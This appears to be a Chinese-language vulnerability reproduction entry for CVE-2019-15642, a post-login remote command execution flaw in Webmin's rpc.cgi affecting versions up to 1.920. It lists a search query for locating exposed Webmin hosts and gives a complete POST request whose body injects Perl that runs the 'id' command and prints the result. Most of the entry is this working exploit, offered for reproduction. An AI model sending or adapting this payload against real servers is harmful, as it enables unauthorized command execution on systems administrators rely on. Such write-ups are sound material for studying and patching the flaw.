 # Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

# Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

```
Webmin < 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](/images/202208291021846.png)

登录后发送请求包

```
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![image-20220829102134685](/images/202208291021740.png)

